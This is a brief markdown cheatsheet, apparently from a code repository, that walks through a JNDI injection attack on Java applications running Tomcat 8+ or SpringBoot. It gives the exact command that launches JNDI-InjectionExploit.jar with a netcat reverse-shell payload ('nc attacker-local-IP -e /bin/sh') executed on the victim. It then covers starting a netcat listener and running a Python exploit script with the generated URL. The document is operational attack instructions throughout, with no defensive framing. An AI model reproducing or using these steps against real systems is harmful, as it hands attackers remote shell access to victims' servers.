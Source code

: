 

# Attack Commands Cheatsheet

## Start the JNDI-InjectionExploit JAR file
~~~
java -jar JNDI-InjectionExploit.jar -C "nc attacker-local-IP -e /bin/sh" -A "attacker-local-IP"
~~~

### **-C flag**: command that will be executed by the downloaded Java Class
</br>

### **-A flag**: IP address of the servers that will be started
</br>

### **nc attacker-local-IP -e /bin/sh**: connect through netcat to the attacker machine and execute a shell (will be invoked on the victim)

</br></br>

## Start the netcat listener
~~~
./listener.sh
~~~

### This bash script will start a netcat listener on port 9001

</br></br>


## Start the python exploit
~~~
python3 exploit.py "url-copied-from-JNDI-InjectionExploit-Output"
~~~

### The only argument of this python script is the URL that can be identified after having launched the JNDI-InjectionExploit JAR file. In particular it is necessary to copy the one that can be found under the title
</br>

>Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):

